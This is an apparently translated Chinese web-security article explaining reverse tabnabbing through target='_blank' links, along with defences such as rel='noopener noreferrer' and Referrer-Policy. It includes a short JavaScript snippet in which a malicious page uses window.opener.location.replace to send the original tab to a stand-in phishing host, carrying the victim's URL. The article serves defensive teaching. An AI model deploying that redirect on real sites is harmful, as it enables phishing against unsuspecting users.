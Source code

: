 通常在网页中使用链接时，很可能会添加一个简单的 target="_blank" 属性到 a 标签上来让浏览器用一个新的标签页来打开一个 URL 地址。但是这一属性正在成为网络钓鱼者攻击的机会。

**恶意攻击**
如果的网站上有一个使用了 target="_blank" 的 a 标签链接，一旦用户点击了这个链接打开了新的标签页，如果这个标签页跳转的网站内存在的恶意代码，那么原本页面的网站可能会被转到一个假的页面。也就是说，当用户回到原本的页面时，他看到的可能就是已经被替换过的钓鱼页面了。

**步骤如下：**

1. 的网站上有一个 a 标签的链接 [https://example.com：](https://example.com%EF%BC%9A)
   ```
   <a href="https://an.evil.site" target="_blank">
     Enter an "evil" website
   </a>
   ```
   
   
   
   * 一个用户点击了这个链接在一个新的标签页打开这个新的网站。这个网站可以根据用户跳转新页面的 HTTP 请求中的 header 里的 Referer 字段来确定这个用户的来源。
   * 而这个网站包含类似的 JavaScript code：
   
   ```js
   const url = encodeURIComponent('{{header.referer}}');
   window.opener.location.replace('https://a.fake.site/?' + url);	
   ```
2. 现在，这个用户继续浏览合格新打开的标签页，当这个开始的页面已经加载到 https://a.fake.site/?https%3A%2F%2Fexample.com%2F 之后。
3. 这个恶意的网站 https://a.fake.site 可以根据这个 querystring 部分伪造一个跟原本的页面一样的页面来欺骗用户（其实也可以在这期间制造另一个跳转，让浏览器的地址栏看起来更令人困惑）
4. 当用户关掉这个新标签页（[https://an.evil.site）然后回到开始的页面时…………Oh](https://an.evil.site%EF%BC%89%E7%84%B6%E5%90%8E%E5%9B%9E%E5%88%B0%E5%BC%80%E5%A7%8B%E7%9A%84%E9%A1%B5%E9%9D%A2%E6%97%B6%E2%80%A6%E2%80%A6%E2%80%A6%E2%80%A6Oh), no, 再也回不到开始那个页面了。

* 以上的攻击方式，是在跨域的场景中。因为当跳转的页面跨域时，opener 对象与 parent 是同一个。
* 虽然，都是受限制的并且只提供了很少的受限的可用属性。并且这一些可用的属性里，大部分都不被允许访问（否则使用时会直接报错 DOMException）。
* 但是在跨域的场景中，opener 对象不像 parent 对象那么严格，opener 依然可以调用 location.replace 方法。
* 如果这是同域场景（例如，这个网站上的一个页面已经被嵌入了恶意代码），那么这个情况会变得更加严重。

**预防**
在 <iframe中有一个 sandbox 属性，所以可以使用以下的一些方法来预防链接：

1. **Referrer Policy 和 noreferrer**
   
   * 在上述的攻击步骤中，有用到 HTTP header 里的 Referer 属性。事实上，可以在当前页面返回的 HTTP Response Headers 中添加 Referrer Policy 头来确保原本网页可以不受新标签页的干扰。
   * 需要修改后端代码（译注：或者 nginx 配置）来实现添加 Referer Policy 头。同时在前端，也可以使用 `<a`标签本身支持的 rel 属性，通过指明 rel="noreferrer" 来确保原网页不受新标签页的干扰。
     ```
      <a href="https://an.evil.site" target="_blank" rel="noreferrer">
        Enter an "evil" website
      </a>
     ```
   * 然而，需要注意的是及时已经限制了 referer 的传递，原网页依旧无法阻止被恶意地重定向。
2. **noopener**(需要考虑浏览器兼容)
   处于安全的考虑，现代浏览器支持指定 rel="noopener" 在 `<a`标签上，从而在新打开的标签页里，opener 对象将不可用，其值直接被设置成了 null。
   ```
   <a href="https://an.evil.site" target="_blank" rel="noopener">
     Enter an "evil" website
   </a>
   ```
3. **最佳**
   
   1. 首先，可以添加 rel="noopener" 到网站的 a 标签上（也推荐使用 rel="noreferrer"）, 如果算上 target="_blank"，那么看起来大概是这样：
      ```
      <a href="https://an.evil.site" target="_blank"  rel="noopener noreferrer">
        Enter an "evil" website
      </a>
      ```
   2. 当然，当要跳转到第三方网站的时候，就推荐添加 rel="nofollow" 来调整 SEO 权重。这看起来像：
      ```
      <a href="https://an.evil.site" target="_blank" 
         rel="noopener noreferrer nofollow">
        Enter an "evil" website
      </a>
      ```
4. **性能问题**
   
   * 最后，来讨论一下性能问题，如果网站使用 <a target="_blank”新打开的标签页的性能就会影响当前打开的页面。在这一点看来，如果在新开的页面里有一个很臃肿的 JavaScript 脚本要执行，那么原本的页面也会受到影响，同时当前页面停滞的现象也可能出现（相当于这两个页面是在同一个线程上）。
   * 如果 noopener 添加到了链接上，那么这新旧两个页面就不能互相插手对方了，也就是说原来的页面不会受到新页面的影响（这两个页面就变成两个线程了）。
5. **参考**：[从未注意的隐藏危险: target = "_blank" 和 "opener"](https://zhuanlan.zhihu.com/p/53132574)

